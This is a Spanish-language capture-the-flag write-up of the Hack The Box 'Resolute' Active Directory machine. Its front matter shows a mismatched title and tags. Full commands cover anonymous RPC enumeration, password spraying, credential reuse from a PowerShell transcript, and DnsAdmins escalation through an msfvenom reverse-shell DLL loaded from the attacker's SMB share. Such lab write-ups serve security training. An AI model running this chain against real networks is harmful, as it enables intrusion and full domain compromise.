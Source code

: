 ```yaml
---
layout: single
title: Awkward - Hack The Box
excerpt: "Máquina Windiws AD muy sencilla"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-resolute/resolute1.png
categories:
  - hackthebox
  - writeup
tags:
  - hackthebox
  - binary exploit  
---
```


# 10.10.10.169 - Resolute

![](/assets/images/htb-resolute/resolute1.png)

--------------------------
# Part 1: Enumeración

Puertos abiertos -> 53(dns),88(kerberos),135(rcp),139,389(ldap),445(smb),464,593(http),636,3269,3268(ldap),5985(winrm),9389.

Primero intentamos sacar el nombre del dominio:
```console
└─$ crackmapexec smb 10.10.10.169
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)

└─$ smbmap -H 10.10.10.169 -u "cucuxii"
# No nos dejan acceder sin creds
```

## Puerto 53:
```console
└─$ dig @10.10.10.169 megabank.local ns
# megabank.local resolute.megabank.local
└─$ dig @10.10.10.169 megabank.local mx 
# hostmaster.megabank.local
```
## Puerto 135 RPC:
```console
└─$ rpcclient -U "" -N 10.10.10.169 -c 'enumdomusers' | grep -oP "\[.*?\]" | grep -v "0x" | tr -d "[]" >> users
└─$ rpcclient -U "" -N 10.10.10.169 -c 'enumdomusers' -c 'enumdomgroups' # Domain Admins (0x200)
└─$ rpcclient -U "" -N 10.10.10.169 -c 'querygroupmem 0x200' # -> rid 0x1f4
└─$ rpcclient -U "" -N 10.10.10.169 -c 'queryuser 0x1f4' # -> Administrator
└─$ rpcclient -U "" -N 10.10.10.169 -c 'querydispinfo' 
# Account: marko	Name: Marko Novak # Cuenta creada. Contraseña Welcome123!
```

Vamos a ver si funciona esta contraseña...
```console
└─$ smbmap -H 10.10.10.169 -u marko -p 'Welcome123!' # Error de autenticación
└─$ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' 
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
└─$ smbmap -H 10.10.10.169 -u 'melanie' -p 'Welcome123!'
# Tiene acceso a NETLOGON, SYSVOL e $IPC pero dentro no encuentro nada interesante
└─$ crackmapexec winrm 10.10.10.169 -u 'melanie' -p 'Welcome123!'
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```

--------------------------
# Part 2: En el sistema: Carpetas ocultas en disco C

```console
└─$ evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'
```
Subo mi script pero no encuentra nada interesante. Mi usaurio tampoco tiene nada interesante.     
En C:Users existe la carpeta home de otro usaurio, "ryan", no me deja acceder.   
```console
*Evil-WinRM* PS C:\Users\ryan> net user ryan
Global Group memberships     *Domain Users         *Contractors
```
Pero no parece que este grupo sirva para mucho...    
Encontramos en C una carpeta inusual "PSTranscripts" con dentro:  
```console
*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
Dentro del script encontramos la frase "cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!"  

--------------------------
# Part 3: Escalando privilegios: Grupo DnsAdmins  
```console
└─$ evil-winrm -i 10.10.10.169 -u 'ryan' -p 'Serv3r4Admin4cc123!'
```
En el escritorio tiene una nota:  
```
*Evil-WinRM* PS C:\Users\ryan\Desktop> type note.txt
Email para el equipo:

- Como se congela el sistema cuando se aplican cambiosm todos esos cambios se revertiran en un minuto (salvo los
que haga el administrador)

*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups /fo list | findstr "Name"
MEGABANK\DnsAdmins
``` 
Este grupo es vulnerable. La manera de explotarlo se dice [aquí](https://lolbas-project.github.io/#)
Basicmanete si cargas una dll maliciosa, al resetear el servicio dns se aplica.  

```console
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.16 LPORT=666 -f dll -o wtf.dll
└─$ impacket-smbserver carpeta $(pwd) -smb2support

*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.16\carpeta\wtf.dll
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

└─$ rlwrap nc -lnvp 666
C:\Windows\system32> whoami
nt authority\system
```